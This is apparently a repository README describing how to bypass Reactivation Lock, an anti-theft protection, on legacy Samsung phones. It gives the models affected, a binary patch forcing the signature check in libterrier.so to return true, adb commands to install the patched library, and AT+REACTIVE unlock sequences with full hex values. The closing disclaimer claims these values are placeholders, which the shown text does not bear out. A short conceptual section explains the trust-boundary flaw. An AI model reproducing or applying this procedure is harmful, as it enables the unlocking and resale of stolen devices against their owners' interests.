

# Reactivation Lock Case Study on Legacy Samsung Devices

## Devices Observed (ENG-Kernel Lab Builds)

- G870A
- G900 series (G900 A/P/T/V)
- J100 series (J100 V/VPP)
- N900 series (N900 A/P/T/V)
- N910 series (N910 A/P/T/V)
- T817A

---

## Context

On these legacy builds, reactivation lock requests flowed through a userspace library responsible for handling AT-command–driven authentication:

- **Library:** `libterrier.so`
- **Location:** `/system/lib` (legacy layouts)

A signature verification API was invoked during this flow, and its boolean result propagated up to a system service that completed the workflow. Allowing a valid hash to be reused to remove reactivation lock.

---

## High-Level Flow



---

## Goal

Identify where the authentication verdict is produced and study how that value is consumed by the system service.  
We targeted the library that handles authentication using AT commands over the modem to request a Google / Samsung Reactivation Lock Removal.

---

## Workflow

1. **Acquire the binary**  
   ```bash
   adb pull /system/lib/libterrier.so
   ```

2. **Locate verification function in IDA**  
   - Search Imports for `EVP_PKEY_verify`.
   - Double-click to view the import.
   - Cross-reference to find the single function that calls it.
   - Inspect the surrounding instructions to identify the boolean-setting instruction.

3. **Patch to always return true**  
   - Original instruction: `MOVS R6, #0x11`
   - Patched instruction: `MOVS R0, #1`

4. **Confirm propagation**  
   - Trace the patched boolean up to `Java_com_android_server_ReactiveService_nativeSessionComplete`.
   - Ensure the value flows to the decision point without alteration.

5. **Prepare patched library**  
   - Save modified binary as `libterrier.so.patched`.

6. **Push patched library to device**  
   See execution sequence below.


---

## Repository Structure

```
/docs
  ida-patch.png            # illustrative screenshot (redacted)
  flow-diagram.txt         # ASCII flow
README.md                  # this file
```

---

## Legal Notice

Bypassing device protections on hardware you do not own or without explicit authorization can violate law. This repository is intended only as historical documentation of a class of issues on legacy devices already remediated by the vendor.

---

## Execution Sequence (Placeholders for Sensitive Values)

1. **Mount the system partition (ENG-kernel)**  
   ```bash
   adb mount
   ```

2. **Push patched library**  
   ```bash
   adb push libterrier.so.patched /system/lib/libterrier.so
   ```

3. **Restart framework or reboot**  
   - Option A: Flash stock `boot.img` back to device.  
   - Option B: Restart framework:  
     ```bash
     adb shell am restart
     ```
   - Wait 1–2 minutes.

4. **Initial verification**  
   ```bash
   AT+REACTIVE=1,0,0
   ```
   Expected: Response includes “triggered”.

5. **Send unlock sequence**  
   ```bash
   AT+REACTIVE=2,0,83486BCBBFD7050A00D8C91AF888E532B27DAAE6564782B68B024EAB04C78E6C
   AT+REACTIVE=2,1,010000012A0100011107002045F19E14B1831C160AB820FB2F2A1799253380D08BD3E6BA13E54D489A30920D060100619652FB07034D918408D520C46F996EF0C2226DA26562BCBD30F346A20932B692655BEFA685B31E40CF5F2A8767612DDA1BD527DE4E31D179E8309DF89736E4F5D348536286EB4FE59C42CFE30EC54FFCE241DE4585B81ACFAB80672BC395C82E93AE366119934C01EA2652C1EA65297E171040B697A2C77960CBF9216072C234527641E932BD6241509D37AB911D0B02CCC1D5CE3F92A8FC5F663ED0141E46959E1962833FAEEA0E143B00874A599AC4C8E62A5D456D7DCEDFB840181C99FFCF74BA185C039B0BB5E7539418928EB1CDCE3C1CBF90E35E7E1190FE37528F87C8D53F1BB6996F70C8EDBF9528F36E37C3284A0D1912A2A62F9E20EA2754A352
   ```
   > Both hashes must be syntactically valid and paired to pass subsequent checks.

6. **Verify unlock state**  
   ```bash
   AT+REACTIVE=1,0,0
   ```
   Expected: Response includes “Unlock”.

7. **Restore original library**  
   ```bash
   adb push libterrier.so /system/lib/libterrier.so
   ```

---

**Tip:** In the lab, a `-1` response from the AT command typically indicated that the reactivation lock state had not changed; recheck with `AT+REACTIVE=1,0,0` before proceeding.

---

## Why and How This Worked (Conceptual)

**Why it worked on legacy builds**
- **Trust boundary issue:** The authentication verdict originated in a userspace library modifiable under engineering/debug configurations.
- **Lack of hardware-backed attestation:** Verification results were not bound to a TEE/Secure Element attestation token in these cases, so higher-level services trusted a software-computed boolean.
- **Boot integrity assumptions:** Where Verified Boot or rollback protections were absent or relaxed, replacing userspace components was possible in lab conditions.

**Conceptual flow**
1. Modem-facing service receives a reactivation request (e.g., AT-style messaging).
2. Userspace library parses the message and calls a signature verification API.
3. Library normalizes the outcome to a boolean and forwards to a system service.
4. System service proceeds only when verdict is `true`.
5. Even with a forced `true`, the AT command had to be syntactically valid.

**Preconditions**
- Physical control of a test device and ability to run an ENG/debug build.
- Ability to replace userspace components.
- Understanding of call sites and data flow to validate behavior.

**Limitations**
- Not applicable to modern devices where authentication verdicts are hardware-attested.
- Malformed or mismatched inputs were still rejected downstream.

---

**Disclaimer:** All sensitive values have been replaced with placeholders. Fill in only in a secure, authorized laboratory environment.
